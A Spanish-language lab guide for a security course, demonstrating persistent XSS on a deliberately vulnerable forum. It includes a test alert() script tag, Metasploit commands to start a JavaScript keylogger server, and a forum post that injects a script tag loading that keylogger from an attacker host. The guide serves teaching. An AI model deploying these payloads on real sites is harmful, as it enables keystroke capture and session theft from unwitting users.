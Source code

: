     -   El usuario `ana` se loguea con la contraseña `ssi` y crea otro
        mensaje nuevo, incluyendo en el texto la siguiente etiqueta
        `<script>` con comandos JavaScript

                        <script> alert(''esto admite XSS'') </script>
                        

    -   Desde otro navegador de la máquina `atacante` [en modo
        ”incógnito” para garantizar una nueva sesión] acceder a la URL
        `http://modsecurity.ssi.net/foro` con las credenciales del
        usuario `pepe` (con password `ssi`) y entrar en el listado de
        mensajes

    -   Se comprueba la ejecución del código del ”ataque” XSS preparado
        por `ana`

### Carga de librerías Javascript ”maliciosas”

En un escenario real, un atacante (el papel de `ana`) inyectaría código
Javascript más dañino, normalmente con la finalidad de hacerse con
información relevante del usuario atacado (el papel de `pepe`).

-   Típicamente se trataría de ”robar” cookies o información de la
    sesión abierta por el usuario atacado desde su navegador, para
    almacenarla con la finalidad de suplantar la sesión de un usuario
    legítimo

-   Otra alternativa usual consistiría en incluir código para cargar
    librerías Javascript maliciosas externas para hacerse con el control
    del navegador del usuario víctima (por ejemplo el ).

**Ejemplo:** despliegue del *keylogger* Javascript de Metasploit

1.  Preparar la librería Javascript y el servidor de escucha en la
    máquina `atacante2`.

    Información del módulo en

              atacante2:~#  msfconsole
              
              msf> use use auxiliary/server/capture/http_javascript_keylogger 
              
              http_javascript_keylogger> set DEMO true
              http_javascript_keylogger> set SRVPORT 8888
              http_javascript_keylogger> set URIPATH js
              http_javascript_keylogger> run
              

    El *keylogger* Javascript quedará disponible en cualquier URL de la
    forma <span>`http://atacante2.ssi.net:8888/js/[...].js`</span>, de
    modo que cuando se cargue esa librería Javascript se inicie la
    captura de pulsaciones de teclado.

2.  Desplegar el ataque XSS persistente

    -   Desde la máquina `atacante2` acceder al foro vulnerable como
        `ana` y crear un nuevo mensaje

            Título: Un mensaje 
                    inocente <script type="text/javascript" src="http://atacante2.ssi.net:8888/js/jquery.js"></script>
            Contenido: ...
                  